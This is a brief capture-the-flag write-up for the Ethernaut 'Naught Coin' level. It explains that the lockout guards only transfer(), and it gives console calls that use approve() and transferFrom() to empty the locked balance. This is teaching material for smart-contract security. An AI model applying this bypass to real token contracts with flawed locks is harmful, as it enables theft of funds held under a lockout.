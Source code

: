 # Level 14: [Naught coin](https://ethernaut.openzeppelin.com/level/0x36E92B2751F260D6a4749d7CA58247E7f8198284)

## Level objectives:
NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

## Analysis (lol)
- The lockout period modifier is applied only on the `transfer()` function.
- We use ERC20's allowance mechanism to transact.

## Steps:
```js
contract.approve("0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4", "1000000000000000000000000");

contract.transferFrom(
  "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  "0x33cc45d8B0336bFA830FB512b54b02a049277403",
  "1000000000000000000000000"
);
```